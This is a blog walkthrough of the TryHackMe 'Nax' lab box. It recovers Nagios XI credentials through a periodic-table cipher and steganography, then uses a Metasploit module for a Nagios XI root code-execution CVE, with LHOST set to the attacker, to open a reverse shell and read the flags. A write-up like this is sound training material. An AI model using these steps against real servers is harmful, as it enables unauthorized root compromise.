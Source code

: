```yaml
---
layout: post
title: " Nax - TryHackMe"
date: 2020-07-17
ctf: true
excerpt: "Walkthrough for Nax on TryHackme"
tags: [Nax, TryHackMe, steganography, metasploit, Nagios]
comments: false
---
```


Nax is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a step by step walkthrough to root this box.



Let's start by running **nmap -A [machine ip]**. We end up with the following results.

![Nax nmap](/assets/img/Nax1.png)

It looks like there's sites running both on http and https, let's take a look at both of them to see what's going on. Both sites show the same page as shown below.



![Nax Website](/assets/img/Nax2.png)

However, a review of the source code reveals a comment with a possible subdirectory to look at.

![Nax website source](/assets/img/Nax3.png)

Let's visit **http://[machine ip]/nagiosxi**. This leads to a login page for Nagios XI.

![Nax Nagios Login](/assets/img/Nax4.png)

At this point, we do not have any credentials, so let's use gobuster to try to enumerate and try to find some files/other directories. Let's run **gobuster dir -u http://[machine ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,xls -t 50**. Unfortunately, this did not turn up anything. At this point I turned my attention back to the list of elements on the main page.

After a quick Google search, I found a [Periodic Table Cipher](https://www.dcode.fr/atomic-number-substitution). Converting the periodic elements (Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr) to their respective element numbers gives us **47 80 73 51 84 46 80 78 103 **.

![Nax Periodic Table Cipher](/assets/img/Nax5.png)

Next, let's convert these numbers to their respective entries on an ASCII table. I used [RapidTables](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) for this. This gets us the answer to **Question 1**.

![Nax Question 1](/assets/img/Nax6.png)

Visiting the answer to Question 1 gets us an image that I saved and downloaded.

Running **exiftool [image name]** (redacted due to it answering Question 1) gives us the answer to **Question 2**.

![Nax Question 2](/assets/img/Nax8.png)

At this point, it seemed pretty obvious that this was using some sort of steganography, but I wasn't sure what type was being used to be honest. I searched for the answer to Question 2 in Google followed by the word cryptography, which led me to a Reddit thread which had a link to an online decoder. I imported the picture and it was able to find a payload hidden within the image.

![Nax image decode](/assets/img/Nax9.png)

This ends up providing you with the Nagios credentials, which end up being the answers to **Question 3** and **Question 4**. At this point, I went and attempted to use these newfound credentials to login to Nagios at **http://[machine ip]/nagiosxi/** I was able to login successfully.

![Nax Nagios Login](/assets/img/Nax10.png)

The next question asked for the CVE number, so I Googled **CVE Nagios XI 5.5.6**. There were several vulnerabilities out there, but the CVE ended up being one from 2019 that allows code execution as root. This is the answer to **Question 5**.

**Question 6** has no answer to submit, as it wants you to start MetaSploit, so go ahead and do so.

**Question 7** asks you for the module name of the machine, using **search Nagios 5.5.6** once logged into will provide you with some modules, one of which is the answer to this question.

Once you have select this module, use **SET PASSWORD** and set the appropriate password and **SET LHOST [attacker ip address]**. Once done, it should look similar to the following.

 ![Nax Metasploit](/assets/img/Nax11.png)

Once reviewed, type **run** to run the exploit. You should have a meterpreter shell within a few moments. Next, type **shell** to get a local shell and run **whoami** and you will see you are root.

![Nax root shell](/assets/img/Nax12.png)

I next ran **ls /home** to enumerate nonroot users to find the user flag. There is a user **galand** here. If we run **ls /home/galand** we will see the user.txt file. This can be read with **cat /home/galand/user.txt**, the answer to **Question 8**.

![Nax user.txt](/assets/img/Nax13.png)

Next, let's run **cat /root/root.txt**, which is the usual default location for root flags.

![Nax root.txt](/assets/img/Nax14.png)

And we're all done with this box.
